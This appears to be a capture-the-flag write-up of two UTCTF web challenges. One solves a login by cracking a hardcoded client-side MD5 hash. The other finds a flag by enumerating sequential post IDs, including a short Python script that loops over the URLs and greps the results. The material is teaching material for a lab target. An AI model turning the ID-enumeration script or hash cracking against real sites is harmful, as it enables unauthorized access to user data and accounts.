





## web

### Source it!
Description:
*Can you see how this page handles authentication?*

http://web1.utctf.live:8778/

When we look at the front page we have a login portal. As it says in the title, lets check out the source.


OK, the source gives us some code. It looks like we need to put in the password that equates to a hash. Luckily it also tells us the user should be 'admin'.

```html
<script src\="[assets/js/main.js](http://web1.utctf.live:8778/assets/js/main.js)"></script>

<script>
function checkPassword(form) {
password1 = form.password1.value;
name = form.name.value;
var username = "admin";
var hash = "1bea3a3d4bc3be1149a75b33fb8d82bc";
var hashedPasswd = CryptoJS.MD5(password1);
if (password1 == '')
alert ("Please enter Password");
else if (username != name) {
alert ("\\nYou lack access privlages...")
return false;
```

As well as telling us the hash, it also suggests that it is a variant of MD5. Let's look at some online hash cracking sites.


Lets use the first one and check our hash.


Now we have our username and password, lets type it in and see what we get.


Flag
utctf{b33n_th3r3_s0uRc3d_th4t}

### Oinker
Description:
*I found this cool more private alternative to twitter.*

http://web2.utctf.live:5320/

Our hjint for this challenge was:
*Post two phrases with the same text and notice what changes between them*

This takes us to a page that has a text box. 



If we submit a test, it displays it on the webpage.



However we do notice after the earlier hint, it looks as though the browser url changes each time. 



If we do it again, it goes up by one number showing us what other people have added.

I simply started at one, which indicated a test.



I thent went to number two and it gave me the flag.



Flag
utflag{traversal_bad_dude}

I did also try using a python code to get the same answer.
```python
import requests
# Range set between 1 and 100 incremented by 1
for oink in range(1,100,1): 
    print(oink) # just to see what it shows
    html = requests.get(f'http://web2.utctf.live:5320/oink/{oink}')
    print(html.text)
```
This provided me with a lot of html code.
```html
3
<!doctype html>
<title> Oinker </title>
<style>
body {
	background-color: #ffc0cb;
}
</style>

<body>

	<h1> Oinker </h1>

	

	<h2> do y&#39;all like our logo? </h2>
```
So looking at  what it produces, the text is in the 'h2' header within the body.  This being the case I just piped it into grep, where I asked for all 'h2', which made searching easier.

```html
~$ python3 test1.py | grep '<h2>'
	<h2> testing oink </h2>
	<h2> utflag{traversal_bad_dude} </h2>
	<h2> do y&#39;all like our logo? </h2>
	<h2> oink </h2>
	<h2> oink </h2>
	<h2> b </h2>
	<h2> z </h2>
	<h2> i </h2>
	<h2> qw </h2>
	<h2> oink </h2>
	<h2> oink1 </h2>
	<h2> -- oink1c3 </h2>
	<h2> -- oink1c3 </h2>
	<h2> qwddqdqdqd </h2>
```

